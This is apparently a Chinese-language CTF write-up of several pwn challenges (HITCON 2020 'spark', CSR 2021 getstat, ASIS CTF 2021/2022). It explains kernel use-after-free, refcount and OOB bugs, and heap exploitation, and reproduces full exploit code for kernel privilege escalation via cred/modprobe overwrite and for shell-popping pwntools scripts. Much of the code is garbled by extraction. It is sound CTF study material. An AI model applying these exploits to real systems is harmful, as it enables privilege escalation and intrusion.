

不可视境界线最后变动于：2022年11月16日 上午
SPARK
HITCON CTF 2020
代码里面看到_InterlockedExchangeAdd()函数, 其实是IDA中对lock指令前缀的函数替换.
汇编为lock xadd cs:cur_count, eax
The LOCK prefix can be prepended only to the following instructions and only to those forms of the instructionsXADD , and XCHG.
xadd是Exchange and Add.
还有mutex的结构体…. 大小为32个字节. 包含了啥我就不看了.
__fentry__到底是个啥 | 中文文章 char (*names)[3] pointer to an array of 3 chars.
好吧看不懂, linux/spark.h又是什么东西.
艰难的继续看代码, spark.h应该是没给的…
**fget()**函数的功能是通过文件描述符查找并返回file结构体
ioctl功能:
Link (0x4008d900): takes two node descriptors A and B, and a edge weight, and creates the edges A->B and B->A;
Info (0x8018d901): provides information about the node;
Finalize (0xd902): finalizes the graph rooted in the node, preparing it for queries;
Query (0xc010d903): takes two node descriptors and calculates the total weight of the shortest path between them.
在release中: 如果refcount==1(正常情况), 释放traversal中nodes(如果有), 释放edge链表节点, 释放node.
其中的一些细节:
open时每个节点的refcount默认为1, 当finalize的时候只有root节点进入traversal()函数时(第一次进入)不增加refcount, 这就意味着除了root, 其他的节点的refcount都会变成2. 而当release root的时候只有root.refcount小于2, 于是只有root的edge+traversal+node本身都被kfree(). 看似正常, 实际上?
Info中有一个node->traversal->size的访问链, 而size在traversal中offset为0的位置. 意味着如果能够控制traversal字段那就可以实现任意读. 如何控制traversal?
finalize中调用函数traversal进行DFS, 对node的refcount进行+1, 然而在link和query中没有refcount的判断和使用, 而且在release中如果大于等于二则直接退出, 不会调用kfree回收空间. 能否修改refcount?
link后相邻节点保存在edge中, 然而当另一端的节点free/release后, edge中的node就构成了一个dangling ptr. 可以用来UAF. 如何控制freed chunk?(uffd+setxattr)
query中malloc了一个dis_arr, 使用node及其children的traversal_idx来索引. 能否越界?(看到个数组都要想能不能越界…)
具体为uffd+setxattr控制free后的chunk, 再伪造一个(finalize==1 && traversal_idx>16)的node, 制造出一个OOB(还真能越界). 这个OOB能够修改什么东西?
一般的内核题目都是提权, 直接变成root用户就可以读取/flag文件, 方法大致有任意写原语或者commit+prepare_cred.
可能的思路整理:
还原ko文件类型信息. 看看demo.c中的示例便于理解.
还原成功, 发现可能是kmalloc和kfree为主的内核堆利用. 先制造出一个任意读.
getinfo中发现可能的任意读(只要控制了traversal), 这样只要在fd存在的时候node结构体同时也被我们控制就可以做到; 发现mutex的使用, 其中的owner成员可以直通cred; 发现UAF; 发现refcount的问题.
发现traversal_idx是属于node的属性, 而不是某次traversal的. 当query的时候还用到了node的children, 也就是默认了所有的child都属于同一次traversal.
综上所述, 结合uffd+setxattr 的方法, 可以在link完一个网再release一个fd之后, 立刻使用这种方法来修改node的内容. 这算是一个基础步骤. 如何继续利用?
把node->traversal_idx修改超过dis_arr的边界, 在query的时候越界修改tmp_node的refcount, 这样在release root之后只有tmp_node+root的会被释放, 而tmp_node的fd反而不会被影响. 只要在这之后马上malloc就可以实现任意读 了.
还有个小问题是如何让dis_arr放到node的前面? exp给出了方法: 前后malloc一些node, 中间两百个node中每隔几个释放一个node, 而dis_arr的大小由traversal时遍历到的node数量决定, 设置链接的node数量为16或17(为什么呢?想想吧)时就会刚好占据了原先node的间隙, 满足了越界的位置需求.
然后读啥呢 ?
可以读取node.lock.owner进而定位到cred, 而因为get_info的v3->size时候mutex_lock(a1->state_lock);已经锁上, 所以可以直接读取.
下一个问题在于node结构体在哪里? 所以要在读取owner之前扫描内存寻找我们设置的特殊值, 有了个任意读的能力确实也可以做到. 扫哪里呢 ?
主要问题就在于现在一个内核地址都没有, 特别是用来kmalloc的那一块区域 . 但是! dmesg是可用的, 可以利用OOB制造一个crash, 然后读取寄存器信息进而获取相应地址. 这可以通过libc库实现, 具体见源码中的第一阶段 .
到现在一二阶段和三阶段初始都已完成. 接下来的任务是如何制造任意写将cred中uid改成0(root)?
想到OOB, 理论上可以覆盖一个地址为与首个子节点的连接权值, 但要覆盖cred.uid的话还要知道dis_arr的地址. 又想到一阶段malloc了一个dis_arr且由于crash并没有释放, 如果此时通过release(fd)释放traversal再马上query, 既知道了地址(一阶段时)又得到了一个可用的dis_arr.
接下来就是构造一下所需的结构. 需要额外的一个root加上一些其他节点, 加上fd构成一张网, 把和fd的连接权值赋为0(并且is_finalized!=1)作为要写入的内容. 至于释放和造网两者的顺序想来是没有区别的.
又一个细节是所用到的root和其他节点都是在第一阶段之前分配的. 或许是为了防止混乱.
最后就是修改traversal_idx, 进行一个root的query, 然后就完成了cred.uid的覆盖. 最后的最后直接print /flag.
这是36小时能做完的题目吗??
exp 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 224 225 226 227 228 229 230 231 232 233 234 235 236 237 238 239 240 241 242 243 244 245 246 247 248 249 250 251 252 253 254 255 256 257 258 259 260 261 262 263 264 265 266 267 268 269 270 271 272 273 274 275 276 277 278 279 280 281 282 283 284 285 286 287 288 289 290 291 292 293 294 295 296 297 298 299 300 301 302 303 304 305 306 307 308 309 310 311 312 313 314 315 316 317 318 319 320 321 322 323 324 325 326 327 328 329 330 331 332 333 334 335 336 337 338 339 340 341 342 343 344 345 346 347 348 349 350 351 352 353 354 355 356 357 358 359 360 361 362 363 364 365 366 367 368 369 370 371 372 373 374 375 376 377 378 379 380 381 382 383 384 385 386 387 388 389 390 391 392 393 394 395 396 397 398 399 400 401 402 403 404 405 406 407 408 409 410 411 412 413 414 415 416 417 418 419 420 421 422 423 424 425 426 427 428 429 430 431 432 433 434 435 436 437 438 439 440 441 442 443 444 445 446 447 448 449 450 451 452 453 454 455 456 457 458 459 460 461 462 463 464 465 466 467 468 469 470 471 472 473 474 475 476 477 478 479 480 481 482 483 484 485 486 487 488 489 490 491 492 493 494 495 496 497 498 499 500 501 502 503 504 505 506 507 508 509 510 511 512 513 514 515 516 517 518 519 520 521 522 523 #define _GNU_SOURCE #include <stdio.h> #include <stdint.h> #include <assert.h> #include <unistd.h> #include <fcntl.h> #include <sys/ioctl.h> #include <pthread.h> #include <sys/mman.h> #include <syscall.h> #include <linux/userfaultfd.h> #include <poll.h> #include <sys/xattr.h> #include <errno.h> #include <signal.h> #include <sys/klog.h> #include <stdlib.h> #include <string.h> #include <stdbool.h> #include <semaphore.h> #define DEV_PATH "/dev/node" #define SPARK_FINALIZE 0xd902 #define SPARK_LINK 0x4008d900 #define SPARK_QUERY 0xc010d903 #define SPARK_INFO 0x8018D901 struct spark_ioctl_query { int fd1;int fd2;long long distance;struct spark_info { unsigned long num_children;unsigned long traversal_idx;unsigned long traversal_size;static unsigned g_create_next_id;static int create () int fd = open(DEV_PATH, O_RDONLY);-1 );return fd;static void llink (int a, int b, unsigned int weight) unsigned long long )weight << 32 )) == 0 );static long long query (int a, int b) struct spark_ioctl_query qry =0 );return qry.distance;static void finalize (int a) 0 );static void get_info (int a, struct spark_info *info) 0 );static void release (int a) 0 );struct fault_arg { sem_t fault_sem;sem_t unblock_sem;void *addr;static void *fault_thread (void *arg) struct fault_arg *param =unsigned char *page = mmap(NULL , 0x1000 , PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1 , 0 );0 ] = 0xff ; int uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);-1 );struct uffdio_api uffdio_api ;0 ;0 );struct uffdio_register uffdio_register ;unsigned long )param->addr;0x1000 ;0 );0 );struct pollfd pollfd ;int nready;1 , -1 );-1 );struct uffd_msg msg ;sizeof (msg)) == sizeof (msg));0 );0 );struct uffdio_copy uffdio_copy ;unsigned long )page;unsigned long )msg.arg.pagefault.address & ~0xfff UL;0x1000 ;0 ;0 ;0 );0x1000 );return NULL ;struct setxattr_arg { const void *buf;size_t size;static void *setxattr_thread (void *arg) struct setxattr_arg *param ="." , "nonexistent" , param->buf, param->size, XATTR_REPLACE) == -1 );return NULL ;struct reclaim_ctx { struct fault_arg fault_arg ;struct setxattr_arg setxattr_arg ;pthread_t setxattr_handle;static void reclaim_alloc_raw (struct reclaim_ctx *ctx, char *buf) char *mem = mmap(NULL , 0x2000 , PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1 , 0 );0x1000 ;0 , 0 ) == 0 );0 , 0 ) == 0 );pthread_t handle;NULL , fault_thread, &ctx->fault_arg) == 0 );0 );char *node = mem + 0x1000 - 0x7e ;for (int i = 0 ; i < 0x7e ; i++)0x7f ; NULL , setxattr_thread, &ctx->setxattr_arg) == 0 );0 );static void reclaim_alloc (struct reclaim_ctx *ctx, unsigned int is_finalized, unsigned long num_children, unsigned long traversal_idx, unsigned long traversal) char buf[0x80 ];memset (buf, 0 , sizeof (buf));unsigned int *)(buf + 0x8 ) = 1 ; unsigned int *)(buf + 0x30 ) = is_finalized; unsigned long *)(buf + 0x58 ) = num_children; unsigned long *)(buf + 0x70 ) = traversal_idx; unsigned long *)(buf + 0x78 ) = traversal; static void reclaim_free (struct reclaim_ctx *ctx) 0 );NULL ) == 0 );static void stage1_leak_dmesg (unsigned long *dist_addrp, unsigned long *edges_addrp) int i, sz;char *buf;10 , NULL , 0 );-1 );malloc (sz);3 , buf, sz) != -1 );unsigned long dist_addr = 0 , edges_addr = 0 ;for (i = 0 ; i < sz && (!dist_addr || !edges_addr); i++)if (!dist_addr && !strncmp (buf + i, "RAX: " , 5 ))if (sscanf (buf + i + 5 , "%lx" , &dist_addr) != 1 )0 ;if (!edges_addr && !strncmp (buf + i, "R09: " , 5 ))if (sscanf (buf + i + 5 , "%lx" , &edges_addr) != 1 )0 ;free (buf);#define S1_DIST_NUM_NODES 12 static void stage1 (unsigned long *dist_addrp, unsigned long *node_addrp, int *node_fdp) fprintf (stderr , "[S1] Creating graph\n" );int fds[S1_DIST_NUM_NODES];for (int i = 0 ; i < S1_DIST_NUM_NODES; i++)for (int i = 1 ; i < S1_DIST_NUM_NODES; i++)0 ], fds[i], 1 );fprintf (stderr , "[S1] Freeing node\n" );1 ]);pid_t pid = fork();-1 );if (pid == 0 )fprintf (stderr , "[S1] Reclaiming node\n" );struct reclaim_ctx ctx ;1 , 0 , 0x4141000000000000 UL, 0 );fprintf (stderr , "[S1] Finalizing root\n" );0 ]);fprintf (stderr , "[S1] Performing crash query by UAF\n" );0 ], fds[1 ]);exit (1 );250 * 1000 );fprintf (stderr , "[S1] Leaking from dmesg\n" );unsigned long dist_addr, edges_addr;unsigned long node_addr = edges_addr - 0x60 ;fprintf (stderr , "[S1] Dist @ 0x%lx\n" , dist_addr);fprintf (stderr , "[S1] Node @ 0x%lx\n" , node_addr);0 ];#undef STAGE1_NUM_NODES static void stage2_spray (int *fd, int before, int n, int skip, int after) for (int i = 0 ; i < before; i++)for (int i = 0 ; i < n; i++)for (int i = 0 ; i < n; i += skip)-1 ;for (int i = 0 ; i < after; i++)static void stage2 (struct reclaim_ctx *victim_ctx, int *victim_fdp) #define STAGE2_NUM_NODES 17 fprintf (stderr , "[S2] Creating graph\n" );int fds[STAGE2_NUM_NODES];for (int i = 0 ; i < STAGE2_NUM_NODES; i++)for (int i = 1 ; i < STAGE2_NUM_NODES; i++)0 ], fds[i], 1 ); fprintf (stderr , "[S2] Freeing node\n" );1 ]);fprintf (stderr , "[S2] Reclaiming node\n" );1 , 0 , (0x80 + 0x8 ) / 8 , 0 ); fprintf (stderr , "[S2] Finalizing root\n" );0 ]);fprintf (stderr , "[S2] Creating predecessor\n" );int spray_incref_fd = create();#define STAGE2_SPRAY_NUM 200 fprintf (stderr , "[S2] Spraying nodes\n" );int spray_fd[STAGE2_SPRAY_NUM];30 , STAGE2_SPRAY_NUM, 4 , 30 );fprintf (stderr , "[S2] Incrementing sprayed refcounts\n" );for (int i = 0 ; i < STAGE2_SPRAY_NUM; i++)if (spray_fd[i] != -1 )0 );fprintf (stderr , "[S2] Corrupting refcount\n" );0 ], fds[1 ]);fprintf (stderr , "[S2] Freeing victim node\n" );fprintf (stderr , "[S2] Reclaiming victim node\n" );unsigned char buf[0x80 ];sizeof (buf) - 1 ] = 0xff ;sizeof (buf) - 2 ] = 0xff ;"." , "nonexistent" , buf, sizeof (buf), XATTR_REPLACE) == -1 );0 , 1337 , 0 , 0 );fprintf (stderr , "[S2] Searching for victim node(fd)\n" );int victim_fd = -1 ;for (int i = 0 ; i < STAGE2_SPRAY_NUM; i++)if (spray_fd[i] != -1 )struct spark_info info =0 ,if (info.num_children == 1337 )break ;-1 );fprintf (stderr , "[S2] Victim fd = %d\n" , victim_fd);#undef STAGE2_SPRAY_NUM #undef STAGE2_NUM_NODES #define STAGE3_READ_NUM_CHILDREN 0x4142133703030303 static unsigned long stage3_read (struct reclaim_ctx *ctx, int fd, unsigned long addr) 1 , STAGE3_READ_NUM_CHILDREN, 0 , addr);struct spark_info info ;return info.traversal_size;static void stage3 (struct reclaim_ctx *ctx, int fd, int *scratch_fds, unsigned long s1_dist_addr, unsigned long s1_node_addr) char buf[0x80 ];fprintf (stderr , "[S3] Finding victim node\n" );unsigned long victim_addr = 0 ;for (int i = 6000 ; i < 10000 ; i++)unsigned long addr = s1_node_addr + i * 0x80 ;unsigned long value = stage3_read(ctx, fd, addr + 0x58 );if (value == STAGE3_READ_NUM_CHILDREN)break ;fprintf (stderr , "[S3] Victim @ 0x%lx\n" , victim_addr);fprintf (stderr , "[S3] Findings creds\n" );unsigned long current = stage3_read(ctx, fd, victim_addr + 0x10 ); fprintf (stderr , "[S3] current = 0x%lx\n" , current);unsigned long cred_addr = stage3_read(ctx, fd, current + 0xa90 );fprintf (stderr , "[S3] cred @ 0x%lx\n" , cred_addr);fprintf (stderr , "[S3] Crafting linkable node\n" );memset (buf, 0 , sizeof (buf));unsigned long *)(buf + 0x0 ) = 100000 ; unsigned int *)(buf + 0x8 ) = 1 ; unsigned int *)(buf + 0x30 ) = 0 ; unsigned long *)(buf + 0x60 ) = victim_addr + 0x60 ; unsigned long *)(buf + 0x68 ) = victim_addr + 0x68 ; fprintf (stderr , "[S3] Building graph\n" );int graph_fds[S1_DIST_NUM_NODES];for (int i = 0 ; i < S1_DIST_NUM_NODES - 1 ; i++)for (int i = 1 ; i < S1_DIST_NUM_NODES - 1 ; i++)0 ], graph_fds[i], 0 );0 ], fd, 0 ); 0 ]);fprintf (stderr , "[S3] Freeing stage1 dist array\n" );memset (buf, 0 , sizeof (buf));unsigned int *)(buf + 0x8 ) = 1 ; unsigned int *)(buf + 0x30 ) = 1 ; unsigned long *)(buf + 0x38 + 0x0 ) = 0 ; unsigned long *)(buf + 0x38 + 0x10 ) = s1_dist_addr; unsigned long *)(buf + 0x60 ) = victim_addr + 0x60 ; unsigned long *)(buf + 0x78 ) = victim_addr + 0x38 ; fprintf (stderr , "[S3] Overwriting cred\n" );unsigned long write_addr = cred_addr + 8 * 3 ;unsigned long idx = (write_addr - s1_dist_addr) / 8 ;1 , 0 , idx, 0 );0 ], graph_fds[1 ]); static void print_flag () int fd = open("/flag" , O_RDONLY);-1 );char buf[100 ];memset (buf, 0 , sizeof (buf));sizeof (buf) - 1 ) != -1 );fprintf (stderr , "!!! FLAG: %s\n" , buf);int main (void ) int scratch_fds[12 ];for (int i = 0 ; i < 12 ; i++)unsigned long s1_dist_addr, s1_node_addr;int s1_node_fd;struct reclaim_ctx victim_ctx ;int victim_fd;F4 print_flag () ;
来自perfectblue的exp: mutex的结构:
struct mutex {uint64_t owner;uint64_t wait_lock;void * prev;void * next;
改进细节:
第一次crash可以使用refcount_warn_saturate. 这样只要令refcount等于0, 就会触发finalize中的警告, 从而导致crash的产生, 不过exp中简单的使用了sleep等待线程, 以及手动输入dmesg信息. 上面一个战队的exp中解析内核日志的代码可以拿来重复利用, 免得在调试的时候浪费时间.
好了, 看不懂那个leak出来的是个啥, 什么是kmalloc_32/128???也没个wp解释一下.
exp: 略 来自balsn战队: 仅仅两百多行, 这么简洁.
crash用到了refcount_warn_saturate. 原因是finalize之前release会使refcount变0.
用到了msgsnd, 也就是kmalloc有最大和最小长度限制, 而且有一个0x30(48)字节的头部.
msgsnd只能控制后0x50的区域. 也就是最后四行
struct node_t { uint64_t id;uint64_t refcount;char state_lock[32 ];uint64_t is_finalized;char nb_lock[32 ];uint64_t num_children;struct list_head_t edges ;uint64_t traversal_idx;struct node_list_t *traversal ;
不知道怎么得出的rbx中存储kernel_heap, 不过可能是从崩溃信息中对比和真实heap最接近的一个寄存器地址.
用了一个很巧妙的方法来获取dis_arr的地址, 在用户区建立一个很大的缓冲区, 猜测在已有的heap地址附近, 让idx偏移越界溢出从内核地址绕回到缓冲区中, 检查哪个地址上的数据被修改就可推算真实的dis_arr. 再根据dis_arr来算出和modprobe的地址. 进而修改到shellcode函数中.
遇到的问题:
读取内核错误信息莫名出错, 换成了klogctl才成功. 修改用参数来crash的神奇操作. 修改kernel_ret为query的返回地址在栈上的存储位置.
modprobe:
重点在于造一个头部以未知的程序. 执行后内核自会使用/tmp/y处理, 不过是修改了/flag的权限
# !/bin/sh
exp: 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 224 225 226 227 228 229 230 231 232 233 234 235 236 237 238 239 240 241 242 243 244 245 246 247 248 249 250 251 252 253 254 255 256 257 258 259 260 261 262 263 264 265 266 267 268 269 270 271 272 273 274 275 276 277 278 279 280 281 282 283 284 285 286 287 288 289 290 291 292 293 294 295 296 297 298 299 300 301 302 303 304 305 306 307 308 309 310 311 312 313 314 315 #include <stdio.h> #include <stdlib.h> #include <fcntl.h> #include <stdint.h> #include <syscall.h> #include <string.h> #include <pthread.h> #include <sys/mman.h> #include <signal.h> #include <assert.h> #include <stdint.h> #define SPARK_LINK 0x4008D900 #define SPARK_GET_INFO 0x8018D901 #define SPARK_FINALIZE 0xD902 #define SPARK_QUERY 0xC010D903 #define PAUSE scanf("%*c" ); struct spark_ioctl_query { int fd1;int fd2;size_t distance;struct Link_Header { struct Link_Header *fd , *bk ;struct Node { size_t id;size_t refcount;size_t state_lock[4 ];size_t finalized;size_t nb_lock[4 ];size_t num_edges;struct Link_Header link_header ;size_t index;size_t tra;struct Edge { struct Link_Header link_header ;struct Node *dst_node ;size_t weight;static int fd[100 ];static void link (int a, int b, unsigned int weight) unsigned long long )weight << 32 )) == 0 );static void query (int i, int a, int b) struct spark_ioctl_query qry =int ret = ioctl(fd[i], SPARK_QUERY, &qry);void get_info (int a) size_t buf[3 ];memset (buf, 0xcc , sizeof (buf));0 );printf ("[get info %d] " , a);for (int i = 0 ; i < 3 ; ++i)printf ("%p " , buf[i]);puts ("" );void spark_open (int i) "/dev/node" , O_RDWR);0 );void spark_close (int i) void spark_finalize (int i) #include <sys/msg.h> #include <sys/ipc.h> struct MsgBuf { long mtype;char mtext[0x10000 ]; int msg_open () int qid;if ((qid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT)) == -1 )"msgget" );exit (1 );return qid;void msg_send (int qid, char *data, size_t size) 1 ;memcpy (msgbuf.mtext, &data[0x30 ], size - 0x30 );if (msgsnd(qid, &msgbuf, size - 0x30 , 0 ) == -1 )"msgsnd" );exit (1 );void msg_free (int qid, size_t size) 1 ;if (msgrcv(qid, &msgbuf, size - 0x30 , 1 , 0 ) == -1 )"msgsnd" );exit (1 );void arb_write (int qid, size_t off) struct Node data =0x80 );0x80 );20 , 20 , 22 );void crash () puts ("[+] Crashing..." );0 );1 );0 , 1 , 0 );1 );0 );size_t kernel_stack, kernel_heap;void leak () int pid = fork();if (pid == 0 )exit (1 );0.5 );printf ("[+] get info from dmesg\n" );int i, sz;char *buf;10 , NULL , 0 );-1 );malloc (sz);3 , buf, sz) != -1 );for (i = 0 ; i < sz && (!kernel_stack || !kernel_heap); i++)if (!kernel_stack && !strncmp (buf + i, "RSP: 0018:" , 5 ))if (sscanf (buf + i + 10 , "%lx" , &kernel_stack) != 1 )0 ;if (!kernel_heap && !strncmp (buf + i, "RBX: " , 5 ))if (sscanf (buf + i + 5 , "%lx" , &kernel_heap) != 1 )0 ;free (buf);printf ("[+] Leak kernel stack addr: %p\n" , kernel_stack);printf ("[+] Leak kernel heap addr: %p\n" , kernel_heap);void shellcode () #define target_area_size 0x1000000 size_t cushion[target_area_size];int main (int argc, char **argv) struct Node node =0xffffffffffff ,0 ,0 },1 ,0 },1 ,0x1111 ,0x2222 ,0x6666 ,0 ,size_t *fake_node = &node;for (int i = 0 ; i < 0x10 ; i++)for (int i = 1 ; i < 0x10 ; ++i)0 , 0x10 - i, fake_node[0x10 - i]);0 );20 );21 );22 );20 , 22 , 0 );20 , 21 , shellcode + 4 );21 ); 0 , 0 , 1 ); 20 );int qid = msg_open();0x80 );size_t dis_heap_addr = kernel_heap;1 );2 ;printf ("[+] init heap address of distanse array: %p\n" , dis_heap_addr);printf ("[+] cushion addr: %p\n" , cushion);puts ("[+] Searching ..." );for (int i = 0 ; i < target_area_size; ++i)0x7ffffffffffffff ;size_t addr = ((size_t )cushion - dis_heap_addr);fprintf (stderr , "[+] travsersal addr: %p\n" , addr);8 );for (int i = 0 ; i < target_area_size; ++i)if (cushion[i] != 0x7ffffffffffffff )printf ("[+] Found at idx:%p content:%p addr:%p\n" , i, cushion[i], &cushion[i]);8 ;printf ("[+] dis_heap_addr: %p\n" , dis_heap_addr);break ;size_t kernel_ret_addr = kernel_stack + 0xa0 ;8 );return 0 ;void shellcode () "mov rdi, [rsp+0x10];" "add rdi, 0x11b2097;" "mov rsi, 0x792f706d742f;" "mov [rdi], rsi;" "ud2;" ::
getstat
CSR 2021
这个比赛的pwn题好少, 就做个样子. 反而是cry(???)和ethereum较多. 而rev这种还有一题是unity背景, 这个也是不会的…..
不过看了别人的wp还是挺有趣的.
比较简单, 直接提供shell()函数, 而且PIE. 有canary, 但是没有方法可以leak. 于是就得绕过. 覆盖返回地址.
主要的问题是无符号数输入加上这段:
.text:0000000000401109 lea rax, [rdx*8]
如果rdx是负数(一致性), 那么rsp减去负数就会增加, 导致栈收缩 .
直接把rsp收缩到返回地址附近, 此时再覆盖地址即可.
唯一一个新问题是在python中把整数pack成浮点数. 新的方法如下:
def iToF (i ):'q' , i)return struct.unpack('d' , b)[0 ]
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 Functions to convert between Python values and C structs.char indicates byte order, size and alignment:size & alignment (default ) =: native order, std . size & alignmentstd . size & alignmentstd . size & alignmentand must match exactly;pad byte (no data) ; c:char ; b:signed byte; B:unsigned byte;_Bool (requires C99; if not available, char is used instead)short ; H:unsigned short ; i:int ; I:unsigned int ;long ; L:unsigned long ; f:float ; d:double ; e:half-float .Special cases (preceding decimal count indicates length) : s:string (array of char ) ; p: pascal string (with count byte) . Special cases (only available in native format) : n:ssize_t ; N:size_t ;Special case (not in native mode unless 'long long' in platform C) : q:long long ; Q:unsigned long long
exp:
from pwn import *import structdef iToF (i ):'q' , i)return struct.unpack('d' , b)[0 ]0x401360 './getstat' )b':' , b'-10' )b':' , b'0' )b':' , bytes (str (iToF(addr)), 'utf-8' ))b':' , b'a' )b'cat /flag' )print (r.clean())
SSE instructions:
注意的点:
分支分析, 就比如这个输入不符合浮点数的输入就会break.
无符号和有符号运算的一致性…
CSRunner 图一乐.
ASIS CTF 2021 Justpwnit no canary PIE.
输入一个负数, 然后覆盖rbp为堆指针, 最终stack pivot到heap上, 最后执行exec("/bin/sh\x00", NULL, NULL)
还在纠结system/read&write/sendfile的时候发现还可以用mov qword ptr [rax], rsi ; ret来把/bin/sh写入bss段….
Abbr
同上, 分数71, 应该是难一点点
strncasecmp: compare two strings ignoring case.
注意下stack pivot还可用xchg指令…. 可以刚好找到xchg esp, eax. 又因为PIE已关, 所以4字节能够装下bss和heap段的地址.
不过看到另一个exp里确实绕了一大圈使用了printf的任意读能力leak出地址. 有点复杂了.
strvec
github src , 114 points
找漏洞的过程完全就是一个人脑fuzzing…
保护全开. 大体思路仍来自别人的wp….
Vulnerability 好了, 是下面代码的一个整数溢出, 可以做到一个很大的vec->size以及很小的malloc(size)
vector *vector_new (int nmemb) if (nmemb <= 0 )return NULL ;int size = sizeof (vector ) + sizeof (void *) * nmemb; vector *vec = (vector *)malloc (size);if (!vec)return NULL ;memset (vec, 0 , size);return vec;
这样的话get和set两个函数在一定范围内都没有了限制, 不过只能get heap段之后的地址区域. 好像只有heap了…
Leak heap address 到现在get了一个arbitrary read. 可以leak一下堆地址, 方法是通过get已释放的chunk的tcache链表指针.
然后呢?不知道了, 卡了半天, 没想到经验是如此的不足, 知道下一步是leak libc还是想不出来怎么做.
好吧现在想出来了, 就是靠伪造一个chunk然后再释放加入unsortedbin中就可以读取fd指针, 从而获得libc_base.
Arbitrary write 方法是释放tcache struct, 放到unsorted bin中, 方法是先填满0x290大小的tcache链表, 使得再次free tcache struct的时候可以进入unsorted bin, 进而让fd和bk指针覆盖0x30的count变成一个很大的数值, 使得可以在tcache链上malloc任意数量的伪造的tcache fd指针, 最终分配到__malloc_hook, 实现修改下一次malloc时的流程控制.
卡了一会儿的是差点忘了释放0x420的chunk的时候会尝试前后合并, 而0x421会阻止后向合并, 此时必须设置好nextchunk的nextsize_inuse位, 以阻止前向合并.
Pop a shell 可以使用ROP的方式, 不过有canary的限制, 在此之前还要知道stack和canary的值.
更简单的方法是使用one_gadget一一检查有无满足对应条件的gadget, 这样只要覆盖malloc_hook到对应gadget地址即可.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 from pwn import *'./strvec.elf64' './libc-2.31.so' )'debug' lambda x:p.send(x) lambda x:p.sendline(x)lambda x:p.recvuntil(x)lambda :p.recvline()lambda :p.recv() lambda x:p.recv(x) lambda x,y:p.sendafter(x,y)lambda x,y:p.sendlineafter(x,y)lambda :p.interactive()1 if c == 0 :"chall.rumble.host" , 5415 )else :False )def get (idx:int ) -> int :b'> ' , b'1' )b'idx =' , str (idx).encode())b'-> ' )False )if b'[undefined]' in data:'get idx:{idx} [undefined]' )8 , b'\x00' ))return datadef set (idx:int , data:bytes =b'\x00' ):b'> ' , b'2' )b'idx =' , str (idx).encode())b'data = ' , data[:-1 ] if len (data)==0x20 else data+b'\n' )def initial ():b'Yogdzewa' )str (0x40000004 ))set (5 , p64(0 )+b'b' *0x18 )5 )f'data is: 0x{chunk1_addr:x} ' )set (5 , flat([0 , 0x421 ]))set (7 , flat([chunk1_addr+0x40 , chunk1_addr+0x40 ], 0 , 0 ))for i in range (5 ):for j in range (4 ):f'idx is: {17 +j+i*6 } ' )set (17 +j+i*6 , b'\x00' )set (0 )set (1 , flat([0 , 0x31 ]))set (5 , flat([0 , 0x31 ]))6 )f'fd_ptr is: 0x{fd_ptr:x} ' )0x1ebbe0 f'libc_base is: 0x{libc.address:x} ' )
ASIS CTF 2022 babyscan-1 非预期解, 因为%0s相当于不限制长度. 而且amlloc不改变rsp, 就是直接对栈进行覆盖. 来自r3kapig.
